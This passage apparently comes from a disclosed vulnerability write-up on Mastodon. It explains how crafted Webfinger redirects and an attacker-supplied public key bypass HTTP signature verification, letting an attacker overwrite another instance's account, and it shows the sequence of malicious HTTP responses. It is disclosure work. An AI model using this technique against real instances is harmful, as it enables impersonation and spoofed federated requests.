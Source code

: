 ## Replacing the Private Key

Using the redirection mechanisms in the Webfinger code, an attacker can bypass the signature verification with a malicious DNS and eventually create or update an account on a Mastodon instance with arbitrary information.

Let's consider the previous fictional actors. A simple account search triggers Webfinger requests. Searching for the `donald@mastodon.so` account on `https://chat.community.io` leads to the following GET requests issued by `chat.community.io` and malicious responses issued by `mastodon.so`:

```
GET /.well-known/webfinger?resource=acct:donald@mastodon.so
200 {
      "subject": "acct:donald@mastodon.so/cial",
      "links": [ { "href": "https://mastodon.so/cial/users/donald" } ]
    }

GET /cial/.well-known/webfinger?resource=acct:donald@mastodon.so/cial
200 {
      "subject": "acct:donald@mastodon.so/cial",
      "links": [ { "href": "https://mastodon.so/cial/users/donald" } ]
    }

GET /cial/users/donald
200 {
      "id": "https://mastodon.so/cial/users/donald",
      "preferredUsername": "donald",
      "publicKey": {
        "id": "https://mastodon.so/cial/users/donald#main-key",
		"publicKeyPem": "-- ATTACKERKEY --"
      }
    }
```

Webfinger results in `@username`: `donald` and `@domain`: `mastodon.so/cial`, and an arbitrary public key generated by the attacker.

The `Account` is eventually created or updated by [ActivityPub::ProcessAccountService](https://github.com/mastodon/mastodon/blob/0446394465c505660c4b29185980e58a040da037/app/services/activitypub/fetch_remote_actor_service.rb#L39) on `chat.community.io`. [TagManager.normalize_domain](https://github.com/mastodon/mastodon/blob/0446394465c505660c4b29185980e58a040da037/app/lib/tag_manager.rb#L21) will eventually delete `/` from the domain, which results in a class `Account` instance with `@domain` being `mastodon.social`.

The `Account` `donal@mastodon.social` is created if it doesn't exist, otherwise it's updated using the information provided by the attacker (public key, avatar, image, URLs, etc.).

# Exploitation

Bypassing the HTTP signature verification allows an attacker to spoof requests from an actor. An exploit has been developed to demonstrate the vulnerability and shared with Mastodon' security team.

## Test environment
